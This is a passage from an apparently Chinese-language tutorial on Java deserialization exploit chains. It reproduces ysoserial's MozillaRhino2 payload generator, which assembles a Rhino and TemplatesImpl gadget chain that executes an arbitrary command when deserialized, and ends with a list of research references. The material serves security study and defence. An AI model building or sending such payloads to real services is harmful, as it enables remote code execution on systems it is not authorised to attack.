ScriptableObject.getProperty(obj, id);
// 从上一层 (Scriptable)in.readObject(); 返回，获取 delegee，包含 name 为 'yy' 的 slot
getAdapterClass(self, superClass, interfaces, delegee);
getObjectFunctionNames(obj);
// 动态调用 TemplatesImpl#newTransformer 方法
ScriptableObject.getProperty(obj, id);ysoserial/MozillaRhino2
下面为 ysoserial/MozillaRhino2 的实现代码，思路与前面使用的并不相同，这里不再分析了。
public Object getObject( String command) throws Exception {
ScriptableObject dummyScope = new Environment();
Map<Object, Object> associatedValues = new Hashtable<Object, Object>();
associatedValues.put("ClassCache", Reflections.createWithoutConstructor(ClassCache.class));
Reflections.setFieldValue(dummyScope, "associatedValues", associatedValues);
Object initContextMemberBox = Reflections.createWithConstructor(
Class.forName("org.mozilla.javascript.MemberBox"),
(Class<Object>)Class.forName("org.mozilla.javascript.MemberBox"),
new Class[] {Method.class},
new Object[] {Context.class.getMethod("enter")});
ScriptableObject initContextScriptableObject = new Environment();
Method makeSlot = ScriptableObject.class.getDeclaredMethod("accessSlot", String.class, int.class, int.class);
Reflections.setAccessible(makeSlot);
Object slot = makeSlot.invoke(initContextScriptableObject, "foo", 0, 4);
Reflections.setFieldValue(slot, "getter", initContextMemberBox);
NativeJavaObject initContextNativeJavaObject = new NativeJavaObject();
Reflections.setFieldValue(initContextNativeJavaObject, "parent", dummyScope);
Reflections.setFieldValue(initContextNativeJavaObject, "isAdapter", true);
Reflections.setFieldValue(initContextNativeJavaObject, "adapter_writeAdapterObject",
this.getClass().getMethod("customWriteAdapterObject", Object.class, ObjectOutputStream.class));
Reflections.setFieldValue(initContextNativeJavaObject, "javaObject", initContextScriptableObject);
ScriptableObject scriptableObject = new Environment();
scriptableObject.setParentScope(initContextNativeJavaObject);
makeSlot.invoke(scriptableObject, "outputProperties", 0, 2);
NativeJavaArray nativeJavaArray = Reflections.createWithoutConstructor(NativeJavaArray.class);
Reflections.setFieldValue(nativeJavaArray, "parent", dummyScope);
Reflections.setFieldValue(nativeJavaArray, "javaObject", Gadgets.createTemplatesImpl(command));
nativeJavaArray.setPrototype(scriptableObject);
Reflections.setFieldValue(nativeJavaArray, "prototype", scriptableObject);
NativeJavaObject nativeJavaObject = new NativeJavaObject();
Reflections.setFieldValue(nativeJavaObject, "parent", dummyScope);
Reflections.setFieldValue(nativeJavaObject, "isAdapter", true);
Reflections.setFieldValue(nativeJavaObject, "adapter_writeAdapterObject",
this.getClass().getMethod("customWriteAdapterObject", Object.class, ObjectOutputStream.class));
Reflections.setFieldValue(nativeJavaObject, "javaObject", nativeJavaArray);
return nativeJavaObject;
}参考
- detecting-deserialization-bugs-with-dns-exfiltration 『通过
DNS外连检测反序列化漏洞』 - triggering-a-dns-lookup-using-java-deserialization 『
URLDNS的起源』 - URLDNS.java 『
ysoserial中的URLDNS利用链实现』 - commoncollections-deserialization.html 『
CommonsCollection1在JDK8u72失效，以及如何改进利用链』- AnnotationInvocationHandler.java 『
openjdk8u66-b36版本下的AnnotationInvocationHandler实现』 - jdk8u71-b11…jdk8u71-b12 『
8u71-b11与8u71-b12的比对』 - 44ad83395ee267fdd564d4d37bd43594f3f48a46 『
AnnotationInvocationHandler的修复』 - bce4d022f27a723fa0e0b7484dcbf0afa2dd210a 『
commons-collection3对InvokerTransformer的修复』 - 91475761 『
HashMap与Hashtable的区别，主要关注对写入内容的hash值的计算方式上』
- AnnotationInvocationHandler.java 『
- exploiting-deserialization-vulnerabilities-in-java-54707478
- 2015-11-11_java_unserialize_rce
- appseccali-2015-marshalling-pickles 『
frohoffJava 反序列化议题的 PPT』 - what-do-weblogic-websphere-jboss-jenkins-opennms-and-your-application-have-in-common-this-vulnerability
- exploiting-deserialization-vulnerabilities-in-java-54707478 『Exploiting Deserialization Vulnerabilities in Java 议题 PPT，提出使用 TransformedMap 构造利用链』
- xalan-j 『Apache Xalan 项目』
- SerialKiller 『SerialKiller 反序列化防护工具』
- 7224-javabeans-1.01-fr-spec-oth-JSpec 『JavaBean 标准 1.01 版本』
- what-is-a-javabean-exactly 『解释 JavaBean 的概念』
- return-of-rhino-old-gadget-revisited.html 『介绍 Return of the Rhino 利用链，即 MozillaRhino，作者的目标是仅使用 JRE/JDK 中的类构造利用链』
- history.html 『Rhino 的发展历史』
- #accessing-java-packages-and-classes 『Rhino 访问 Java 类』
- #contexts 『Rhino 的 Context 的作用』